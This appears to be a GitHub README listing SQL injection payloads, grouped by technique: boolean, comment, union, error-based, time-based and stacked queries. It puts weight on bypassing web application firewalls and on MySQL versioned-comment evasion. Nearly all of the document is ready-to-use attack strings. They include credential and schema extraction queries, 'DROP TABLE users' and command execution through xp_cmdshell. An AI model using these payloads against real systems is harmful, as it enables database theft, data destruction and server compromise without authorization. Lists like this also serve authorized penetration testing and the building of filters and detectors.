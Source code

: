 # SQL Injection Payloads (All Categories with WAF Bypass & MySQL Versioned Comments)

A comprehensive list of **SQL Injection payloads** covering all major categories:  
**Boolean-based**, **Comment-based**, **Union-based**, **Error-based**, **Time-based**, and **Stacked Queries**.  

Includes **common WAF bypass techniques** and **MySQL versioned comment bypass** for optimal testing and evasion.

---

## Table of Contents

- [Boolean-based Payloads](#boolean-based-payloads)
- [Comment-based Payloads](#comment-based-payloads)
- [Union-based Payloads](#union-based-payloads)
- [Error-based Payloads](#error-based-payloads)
- [Time-based Payloads](#time-based-payloads)
- [Stacked Queries Payloads](#stacked-queries-payloads)

---

## Complete Payload List

### Boolean-based Payloads
' OR '1'='1  
" OR "1"="1  
' OR 1=1--  
" OR 1=1--  
' OR 'a'='a  
" OR "a"="a  
1 OR 1=1  
1' OR 1=1--  
1" OR 1=1--  
' OR '1'='1'#  
' OR '1'='1'/*  
1 OR 1=1#  
1 OR 1=1/*  
1 OR '1'='1'  
1/**/OR/**/1=1  
1%20OR%201=1  
1%09OR%091=1  
1%0AOR%0A1=1  
1%0DOR%0D1=1  
1%0COR%0C1=1  
'/*!OR*/'1'='1  
' oR '1'='1  
' Or '1'='1  
'/**/oR/**/'1'='1  
' OR%00'1'='1  
'/**!50000OR*/+'1'='1  
"/*!50000OR*/+"1"="1  
1/**!50000OR*/+1=1  
'/**!50000oR*/+'a'='a  
1/**!50000OR*/%0A1=1  
'/**!50000OR*/%0A'1'='1  

### Comment-based Payloads  
--  
--+  
#  
/* */  
-- -  
--a  
--1  
--%0A  
%23  
%2D%2D%20  
%2D%2D%0A  
/*%0A*/  
%2F%2A%2A%2F  
/*!*/--+  
/*!*/%23  
--%09  
--%0D  
--%0C  
/*!50000--*/  
/*!50000#*/  
/*!50000--%0A*/  
/*!50000--%09*/  

### Union-based Payloads  
' UNION SELECT NULL--  
' UNION SELECT 1,2--  
' UNION SELECT 1,2,3--  
' UNION SELECT database(),user()--  
' UNION SELECT @@version, NULL--  
' UNION SELECT version(), NULL--  
' UNION ALL SELECT NULL,NULL--  
' UNION DISTINCT SELECT NULL,NULL--  
' UNION SELECT table_name FROM information_schema.tables--  
'/**/UNION/**/SELECT/**/NULL--  
' UNION%0ASELECT%0ANULL--  
'/*!50000UNION*/SELECT NULL--  
'/*!uNiOn*/ /*!SeLeCt*/ NULL--  
'/**/UNION%0ASELECT/**/NULL--  
'/**/UNION%0A/**/SELECT/**/NULL--  
'/*!UNION*/+/*!SELECT*/+NULL--  
%27UNION%0ASELECT%201,2--  
'/**!50000UNION*/+/**!50000SELECT*/+NULL--  
'/**!50000UNION*/+/**!50000SELECT*/+1,2--  
'/**!50000UNION*/%0A/**!50000SELECT*/%0ANULL--  
'/**!50000UNION*/%0A/**!50000SELECT*/%0A1,2,3--  
'/**!50000UNION*/+ALL+/**!50000SELECT*/+NULL,NULL--  

### Error-based Payloads  
' AND updatexml(1,concat(0x7e,user(),0x7e),1)--  
' AND extractvalue(1,concat(0x7e,database(),0x7e),1)--  
' AND 1=CONVERT(int, @@version)--  
' AND CAST((SELECT @@version) AS int)--  
' AND exp(~(SELECT * FROM (SELECT user())x))--  
' AND 1=LIKE(user())--  
'/**/AND/**/updatexml(1,concat(0x7e,user(),0x7e),1)--  
'/*!AND*/updatexml(1,concat(0x7e,user(),0x7e),1)--  
'/**/AND/**/extractvalue(1,concat(0x7e,database(),0x7e),1)--  
'/*!AND*/extractvalue(1,concat(0x7e,database(),0x7e),1)--  
' AND%0Aupdatexml(1,concat(0x7e,user(),0x7e),1)--  
' AND%09extractvalue(1,concat(0x7e,database(),0x7e),1)--  
'/**!50000AND*/+updatexml(1,concat(0x7e,user(),0x7e),1)--  
'/**!50000AND*/+extractvalue(1,concat(0x7e,database(),0x7e),1)--  
'/**!50000AND*/+1=CONVERT(int,@@version)--  
'/**!50000AND*/+CAST((SELECT+@@version)+AS+CHAR)--  

### Time-based Payloads  
' OR SLEEP(5)--+  
' OR IF(1=1,SLEEP(5),0)--+  
' WAITFOR DELAY '0:0:5'--  
1 AND SLEEP(5)--  
1 OR benchmark(10000000,MD5(1))--  
'/**/OR/**/SLEEP(5)--+  
'/*!OR*/SLEEP(5)--+  
' OR%0ASLEEP(5)--+  
'/**/OR/**/IF(1=1,SLEEP(5),0)--+  
'/*!OR*/IF(1=1,SLEEP(5),0)--+  
1/**/AND/**/SLEEP(5)--  
1%0AAND%0ASLEEP(5)--  
'/**!50000OR*/+SLEEP(5)--+  
'/**!50000OR*/+IF(1=1,SLEEP(5),0)--+  
1/**!50000AND*/+SLEEP(5)--  
1/**!50000OR*/+BENCHMARK(10000000,MD5(1))--  

### Stacked Queries Payloads  
1; SELECT @@version--  
1; EXEC xp_cmdshell('whoami')--  
1; DROP TABLE users--  
1; INSERT INTO users('test','pass')--  
1;%0aSELECT%20@@version--  
1;/**/SELECT/**/@@version--  
1;/*!EXEC*/xp_cmdshell('whoami')--  
1;%0aDROP%20TABLE%20users--  
1;/**!50000SELECT*/+@@version--  

---

*This curated list enables thorough testing of SQL injection vectors, emphasizing evasion of Web Application Firewalls and exploiting MySQL-specific quirks.*  
*Use responsibly in authorized security assessments only.*
